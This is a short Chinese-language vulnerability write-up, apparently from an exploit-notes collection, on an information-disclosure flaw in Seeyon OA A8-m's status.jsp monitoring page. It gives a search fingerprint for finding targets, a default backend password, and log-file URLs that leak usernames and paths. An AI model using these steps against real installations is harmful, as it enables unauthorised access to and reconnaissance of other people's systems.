



# 致远OA A8 status.jsp 信息泄露漏洞

## 漏洞描述

致远OA A8-m 存在状态监控页面信息泄露，攻击者可以从其中获取网站路径和用户名等敏感信息进一步攻击

## 漏洞影响 

<a-checkbox checked>致远OA A8-m</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="A8-m"</a-checkbox></br>

## 漏洞复现

访问监控页面

```plain
/seeyon/management/status.jsp
```


<a-checkbox checked>后台密码为 WLCCYBD@SEEYON</a-checkbox></br>

<a-checkbox checked>登录后通过如下url获得一些敏感信息</a-checkbox></br>

```plain
/seeyon/management/status.jsp
/seeyon/logs/login.log
/seeyon/logs/v3x.log
```







